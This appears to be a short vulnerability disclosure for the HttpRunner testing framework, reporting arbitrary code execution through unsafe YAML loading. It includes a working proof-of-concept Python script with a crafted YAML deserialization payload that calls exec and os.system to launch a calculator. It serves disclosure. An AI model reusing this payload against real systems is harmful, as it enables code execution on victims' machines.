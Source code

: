 # Description 

**HttpRunner** is a simple & elegant, yet powerful HTTP(S) testing framework.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/httprunner/httprunner

# Proof of Concept

```python
import os
#os.system('pip3 install httprunner')
from httprunner import loader
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
loader._load_yaml_file('pwn.yml')
```

* `pip3 install httprunner`
* `python3 exploit.py`
